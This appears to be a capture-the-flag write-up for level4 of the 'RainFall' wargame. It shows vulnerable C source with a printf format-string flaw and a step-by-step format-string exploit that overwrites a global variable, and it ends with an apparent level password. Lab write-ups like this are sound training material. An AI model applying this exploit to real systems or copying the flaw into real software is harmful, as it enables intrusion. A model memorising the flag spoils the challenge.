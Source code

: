 # Level 1

<h3>source.c</h3>

```console
int m = 0;

void p(char* str) {
  printf(str);
}

void n(void) {
  char str[520];

  fgets(str, 512, stdin);
  p(str);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
}

void main(void) {
  n();
}
```

<h3>Analysis</h3>

This program looks very similar to `level3` so we could use the same method `Format string` exploit

Target is to modify the `m` global variable to `16930116`

<h3>Exploit</h3>

The address of `m` is at `0x8049810`

Next we need to find which arg position of the `printf()` that we need to store the char counter on

```console
level4@RainFall:~$ (python -c "print 'aaaa' + ' [%x] ' * 15") | ./level4
aaaa [b7ff26b0]  [bffff744]  [b7fd0ff4]  [0]  [0]  [bffff708]  [804848d]  [bffff500]  [200]  [b7fd1ac0]  [b7ff37d0]  [61616161]  [78255b20]  [5b20205d]  [205d7825]
```

There we have it, the 12th position!

Now we need to write `16930112` char since we already have the 4 bytes for the address of `m`, but it is too long and `printf()` will not accept it

We could use `%16930112d`, where `%d` is the modifier for digits and we can specify the field width by putting some numbers before it

'\x10\x98\x04\x08'

```console
level4@RainFall:~$ (python -c "print '\x10\x98\x04\x08' + '%16930112d' + '%12\$n'") | ./level4
[...]
[...One eternity later...]
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```